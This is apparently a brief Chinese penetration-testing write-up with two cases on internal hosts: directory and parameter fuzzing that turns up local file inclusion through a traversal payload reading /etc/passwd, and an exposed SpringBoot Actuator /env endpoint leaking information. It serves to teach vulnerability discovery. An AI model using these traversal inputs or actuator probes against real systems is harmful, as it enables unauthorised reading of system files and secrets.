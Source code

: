 #### **Example1**

  

```
https://192.168.2.11:8888/  

PS：前期资产发现阶段发现8888端口对应的主机有1800多台

  

1、直接访问提示403  
2、Fuzz目录  
发现存在taskFile，https://192.168.2.11:8888/taskFile  
3、访问https://192.168.2.11:8888/taskFile提示参数不对  
4、Fuzz参数  
发现参数tId，https://192.168.2.11:8888/taskFile?tId=  

5、输入值，访问https://192.168.2.11:8888/taskFile?tId=1

发现提示tId-1不存在

6、删除值访问https://192.168.2.11:8888/taskFile?tId=

发现提示/root/xxx/xxx任务不存在

7、Fuzz漏洞，成功发现本地文件包含https://192.168.2.11:8888/taskFile?

tId=../../../../etc/passwd


```

####   

#### **Example2**

  

```
https://192.168.2.11:8006/  

PS：前期资产发现阶段发现8006端口对应的主机有180多台

  

1、直接访问https://192.168.2.11:8006/env，发现存在SpringBoot Actuator

信息泄漏

  



```
